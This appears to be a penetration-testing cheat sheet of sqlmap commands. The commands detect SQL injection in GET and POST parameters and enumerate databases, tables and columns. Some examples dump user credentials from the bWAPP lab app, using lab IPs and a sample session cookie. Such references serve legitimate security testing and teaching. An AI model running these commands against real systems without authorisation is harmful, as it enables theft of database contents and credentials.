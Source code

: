 ### Attacks

### SQLMap

#### Check if injection exists

```bash
sqlmap -r <REQUEST_FILE> -p <POST_PARAMETER>
sqlmap -r Post.req

sqlmap -u "http://<TARGET_IP>/sqli_1.php?title=hacking&action=search" --cookie "PHPSESSID=rmoepg39ac0savq89d1k5fu2q1; security_level=0" -p title

sqlmap -u "http://10.10.10.10/file.php?id=1" -p id          #GET Method
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin"      #POST Method
```

#### **Get database if injection Exists**

```bash
sqlmap -r login.req --dbs
sqlmap -u "http://10.10.10.10/file.php?id=1" --dbs    #determine the databases:
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id --dbs    #GET Method
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin" --dbs #POST Method

# List databases
sqlmap -u "http://<TARGET_IP>/sqli_1.php?title=hacking&action=search" --cookie "PHPSESSID=rmoepg39ac0savq89d1k5fu2q1; security_level=0" -p title --dbs
sqlmap -u "http://<TARGET_IP>/sqli_1.php?title=hacking&action=search" --cookie "PHPSESSID=rmoepg39ac0savq89d1k5fu2q1; security_level=0" -p title -D bWAPP --tables
sqlmap -u "http://<TARGET_IP>/sqli_1.php?title=hacking&action=search" --cookie "PHPSESSID=rmoepg39ac0savq89d1k5fu2q1; security_level=0" -p title -D bWAPP -T users --columns
sqlmap -u "http://<TARGET_IP>/sqli_1.php?title=hacking&action=search" --cookie "PHPSESSID=rmoepg39ac0savq89d1k5fu2q1; security_level=0" -p title -D bWAPP -T users -C admin,password,email --dump
```

**Get Tables in a Database**

```bash
sqlmap -r login.req -D dbname --tables    #determine the tables:
sqlmap -u "http://10.10.10.10/file.php?id=1" -D dbname --common-tables    #if tables not available, guess tables using common names
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id -D dbname --tables        #GET Method
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin" -D dbname --tables #POST Method
```

**Get data in a Database tables**

```bash
sqlmap -r login.req -D dbname -T table_name --dump
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id -D dbname -T table_name --dump      #GET Method
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin" -D dbname -T table_name --dump   #POST Method
```
